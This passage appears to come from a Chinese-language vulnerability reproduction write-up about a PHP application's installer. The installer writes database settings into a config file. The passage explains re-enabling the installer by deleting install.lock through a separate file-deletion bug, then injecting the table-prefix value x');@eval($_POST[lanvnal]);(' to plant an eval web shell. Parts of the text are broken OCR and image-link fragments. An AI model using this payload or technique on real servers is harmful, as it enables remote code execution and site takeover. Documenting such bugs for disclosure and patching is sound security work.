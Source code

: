 ```

```
if($fp = fopen($file, 'w')) {
    fwrite($fp, $config);
    fclose($fp);
    $success = true;
}
return $success; 
``` `}` 
```

因为 `dbhost, dbuser`等参数需要用来连接数据库，所以利用 `tablepre` 向配置文件写入shell。

### 漏洞复现

如果安装后`install/index.php`因为某些原因还存在，直接访问会有如下警告：

![image](img/4086b46ede537047a41e5b2f355844f7.png)

通过文件删除漏洞删除data目录下的`install.lock`文件就可以重新安装。

安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`

![image](img/0c128f283b1c6b815525d51d24d143c2.png)
